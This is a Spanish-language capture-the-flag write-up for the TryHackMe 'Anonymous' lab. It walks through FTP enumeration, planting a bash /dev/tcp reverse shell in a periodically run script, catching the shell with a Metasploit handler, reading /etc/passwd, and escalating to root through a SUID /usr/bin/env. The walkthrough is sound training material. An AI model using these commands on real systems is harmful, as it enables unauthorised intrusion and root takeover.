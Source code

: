 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TryHackMe
  - Medium
  - FTP
  - ReverseShell
  - PrivilegeEscalation
  - SUID
---
```

- [[#Enumeration|Enumeration]]
	- [[#Enumeration#Ping|Ping]]
	- [[#Enumeration#Nmap|Nmap]]
	- [[#Enumeration#FTP|FTP]]
- [[#Exploitation|Exploitation]]
	- [[#Exploitation#FTP|FTP]]
	- [[#Exploitation#Reverse Shell|Reverse Shell]]
	- [[#Exploitation#Privilege Escalation|Privilege Escalation]]
		- [[#Privilege Escalation#SUID|SUID]]

---
# Resolviendo la máquina Anonymous

> En este **Write-up** detallo la resolución de la máquina **Anonymous**, categorizada con dificultad media en [TryHackMe](https://tryhackme.com/room/anonymous).  
> Durante el proceso se explota un servicio **FTP** con acceso anónimo, que permite la manipulación de un script ejecutado de forma periódica, facilitando la obtención de una **Reverse Shell**. Finalmente, se realiza una escalada de privilegios aprovechando un binario con permisos **SUID** (`/usr/bin/env`), lo que concede acceso total al sistema.

---
## Enumeration
### Ping

`ping -c 1 10.10.41.183`

![](Pasted%20image%2020250817192837.png)

*TTL=63/64* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.41.183 -oG allPorts`

![](Pasted%20image%2020250817192901.png)

`nmap -p21,22,139,445 -sCV 10.10.41.183 -oN targeted`

![](Pasted%20image%2020250817192921.png)
![](Pasted%20image%2020250817192932.png)
### FTP

Se observa que el servicio **FTP** (21) se encuentra abierto y además de tener el inicio de sesión anónimo activado.

`ftp 10.10.41.183`

![](Pasted%20image%2020250817192955.png)

Se encuentra el directorio `scripts`, se accede a él para visualizar lo que contiene.

`cd scripts`

`ls`

![](Pasted%20image%2020250817193009.png)

El archivo `clean.sh` se ejecuta de forma periódica, registrando su actividad en `removed_files.log`.

`get clean.sh`

`cat clean.sh`

![](Pasted%20image%2020250817193027.png)

`get removed_files.log`

`cat removed_files.log`

![](Pasted%20image%2020250817193040.png)

`get to_do.txt`

`cat to_do.txt`

![](Pasted%20image%2020250817193052.png)

Se observa que el archivo llamado `clean.sh` se ejecuta de manera periódica y pinta trazas en el archivo `removed_files.log`.

---
## Exploitation
### FTP

Como hemos visto en la sección de enumeración, se ejecuta de manera periódica un script.

Se procede a modificar el script, añadiendo un *Reverse Shell*.

`/bin/bash -c "sh -i >& /dev/tcp/10.8.184.124/1234 0>&1"`

`cat clean.sh`

![](Pasted%20image%2020250817193106.png)

Se vuelve a acceder al servicio **FTP** y se sube el archivo modificado.

`put clean.sh`.
### Reverse Shell

Se configura un handler en Metasploit para escuchar en el puerto 1234.

`vim handler.rc`

```
use multi/handler
set LHOST 10.8.184.124
set LPORT 1234
run
```

`msfconsole -r handler.rc`

![](Pasted%20image%2020250817193125.png)

Se obtiene la *Reverse Shell*.

`background`

`sessions -u 1`

`sessions 2`

`sysinfo`

![](Pasted%20image%2020250817193138.png)

`getuid`

![](Pasted%20image%2020250817193154.png)

`cat /etc/passwd`

![](Pasted%20image%2020250817193208.png)

Se accede al directorio `/home/namelessone`.

`ls`

![](Pasted%20image%2020250817193225.png)

Se encuentra la *flag* de usuario.
### Privilege Escalation
#### SUID

Se obtiene una *shell*.

`shell`

`/bin/bash -i`

`find / -perm -4000 2>/dev/null`

![](Pasted%20image%2020250817193253.png)
![](Pasted%20image%2020250817193311.png)

El binario `/usr/bin/env` con bit **SUID** permite invocar una shell como *root*, lo que facilita la escalada de privilegios según lo documentado en [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid).

![](Pasted%20image%2020250817193328.png)

`/usr/bin/env /bin/sh -p`

![](Pasted%20image%2020250817193346.png)

Se accede al directorio `/root`.

`ls -la`

![](Pasted%20image%2020250817193357.png)

Se encuentra la *flag* de *root*.

---

